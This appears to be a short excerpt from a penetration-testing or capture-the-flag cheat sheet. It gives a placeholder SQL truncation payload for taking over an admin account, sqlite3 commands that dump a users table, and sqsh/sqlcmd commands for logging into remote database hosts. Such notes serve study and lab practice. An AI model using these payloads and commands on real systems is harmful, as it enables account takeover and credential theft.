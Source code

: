 
**SQL Truncation Attack**

```
'admin@<FQDN>' = 'admin@<FQDN>++++++++++++++++++++++++++++++++++++++htb'
```

**sqlite3**

```
sqlite3 <DATABASE>.db
sqlite> .tables
sqlite> select * from users;
```

**sqsh**

```
sqsh -S <RHOST> -U <USERNAME>
```

**sqlcmd**

```
sqlcmd -S <RHOST> -U <USERNAME>
```
